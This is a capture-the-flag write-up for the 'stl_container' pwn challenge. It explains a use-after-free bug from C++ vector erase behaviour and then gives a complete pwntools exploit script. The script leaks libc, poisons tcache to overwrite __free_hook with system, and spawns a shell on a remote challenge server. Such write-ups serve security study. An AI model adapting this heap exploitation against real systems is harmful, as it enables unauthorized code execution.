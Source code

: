 ### stl_container
[中文](./README_zh.md) [English](./README.md)
[attachment](./attachment.zip)

This challenge is about a bug in c ++ vector template
When the item stored in the vector is an Object, no matter what index you want to erase will call the destructor of the last Object in the vector
This causes a UAF vulnerability, and then you can use tcache to carry out various attacks

Below is the exp
```
from pwn import *

debug=0

#context.terminal = ['tmux','-x','sh','-c']
#context.terminal = ['tmux', 'splitw', '-h' ]
context.log_level='debug'

if debug:
    p=process('./stl_container')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('134.175.239.26',8848)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def add(ty, content='a'):
    sl(str(ty))
    ru('3. show')
    ru('>>')
    sl('1')
    ru('input data:')
    se(content)
    ru('>>')

def delete(ty, idx=0):
    sl(str(ty))
    ru('3. show')
    ru('>>')
    sl('2')
    if ty <= 2:
        ru('index?')
        sl(str(idx))
    ru('>>')

def show(ty, idx=0):
    sl(str(ty))
    ru('3. show')
    ru('>>')
    sl('3')
    ru('index?\n')
    sl(str(idx))
    ru('data: ')
    data = ru('\n')
    ru('>>')
    return data


ru('>>')

add(1)
add(1)
add(2)
add(2)
add(4)
add(4)
add(3)
add(3)

delete(3)
delete(3)
delete(1)
delete(1)
delete(4)
delete(4)
delete(2)
data = show(2)
libc = u64(data[:6]+'\0\0')
base = libc - 0x3ebca0
free_hook = base + 0x3ed8e8
system = base + 0x4f440

add(3, '/bin/sh\0')
delete(2)
add(4)
add(2)
add(2)
add(3, '/bin/sh\0')
delete(2)
delete(2)
add(1, p64(free_hook))
add(1, p64(system))

sl('3')
ru('show')
sl('2')

print(hex(base))
p.interactive()

```
